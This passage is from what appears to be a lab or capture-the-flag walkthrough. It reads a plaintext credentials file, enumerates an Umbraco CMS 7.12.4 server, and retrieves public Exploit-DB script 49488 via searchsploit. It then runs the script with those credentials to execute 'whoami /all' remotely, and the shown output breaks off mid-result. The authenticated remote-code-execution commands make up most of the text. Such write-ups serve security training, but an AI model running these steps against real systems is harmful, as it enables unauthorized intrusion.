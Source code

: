 ```console
┌──(root㉿kali)-[~]
└─$ cat pass.txt.txt
Install Notes, Do not forget
username: admin@itsl.local
password: mouseindeed
```

# 3. Targeting the Umbraco CMS

Recall that it appears to have 2 http endpoints from the nmap output:

```console
80/tcp    open  http          Microsoft IIS httpd 10.0
9450/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

- Browsing to `:80` presents just a default Microsoft IIS page
- Browsing to `:9450` presents the Umbraco CMS
  - Logging in to Umbraco shows that it's version `7.12.4`

Search for Umbraco exploits:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit umbraco
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)           | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution    | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)    | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                       | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting    | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                              | aspx/webapps/50462.txt
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

2 exploits found for Umbraco, let's try `aspx/webapps/49488.py`:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit -m 49488
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
File Type: Python script, ASCII text executable, with very long lines (723)

Copied to: /home/kali/49488.py
```

Let's test the exploit

```console
┌──(root㉿kali)-[~]
└─$ python3 49488.py
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]
exploit.py: error: the following arguments are required: -u/--user, -p/--password, -i/--host, -c/--command

┌──(root㉿kali)-[~]
└─$ python3 49488.py -u admin@itsl.local -p mouseindeed -i http://10.0.88.45:9450 -c whoami -a /all

USER INFORMATION
----------------

User Name                   SID
```
